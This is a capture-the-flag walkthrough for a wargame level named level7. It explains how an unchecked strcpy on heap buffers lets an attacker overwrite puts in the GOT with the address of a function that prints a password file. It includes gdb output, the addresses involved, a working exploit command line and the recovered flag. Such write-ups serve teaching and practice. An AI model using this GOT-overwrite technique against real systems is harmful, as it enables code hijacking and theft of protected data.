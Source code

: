 # level7

## Header

```bash
ssh level7@192.168.64.9 -p 4242
...
  GCC stack protector support:            Enabled
  Strict user copy checks:                Disabled
  Restrict /dev/mem access:               Enabled
  Restrict /dev/kmem access:              Enabled
  grsecurity / PaX: No GRKERNSEC
  Kernel Heap Hardening: No KERNHEAP
 System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level6/level6
```

<hr>

## Solution

From the inspecting [disassembled code](./source.s), we can understand that the program opens 
`/home/user/level8/.pass` and reads it to the global buffer `c` of size 80.
The main problem is `puts` call doesn't print buffer `c`, but `~~` string literal instead.

Our savior is `m` function that calls `printf` that prints time and `c` buffer.

So, we need to replace `puts` address in `GOT` table with `m` address.

To do that, let's pay attention to 2 facts:
- There are 4 consecutive `malloc(8)` calls
- There are 2 `strcpy` unprotected calls 

1st and 3rd `malloc` calls are just arrays of two integers, `arr1` and `arr2`.
The result of 2nd and 4th calls are stored in `arr1[1]` and `arr2[1]`, respectively.

This scheme represents the memory after `malloc` called. <br>
<img src="./Resources/scheme07.png" width=600/>

`strcpy` will copy from the address stored in arr[1] (first red block on the scheme)

Our goal is to make the 2nd `strcpy` to be called with address of puts in GOT as the 1st parameter and the address of `m` function as the 2nd parameter.

```
(gdb) disas puts
Dump of assembler code for function puts@plt:
   0x08048400 <+0>:     jmp    *0x8049928
   0x08048406 <+6>:     push   $0x28
   0x0804840b <+11>:    jmp    0x80483a0
End of assembler dump.

(gdb) p m
$1 = {<text variable, no debug info>} 0x80484f4 <m>
```

Results:
```
0x8049928 - puts@got.plt
0x80484f4 - m function
```

Let's exploit!
```bash
# (20 bytes padding + addr of `puts@got.plt` + addr of `m`):
./level7 $'XXXXXXXXXXXXXXXXXXXX\x28\x99\x04\x08' $'\xf4\x84\x04\x08'
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1668220618
```

## References
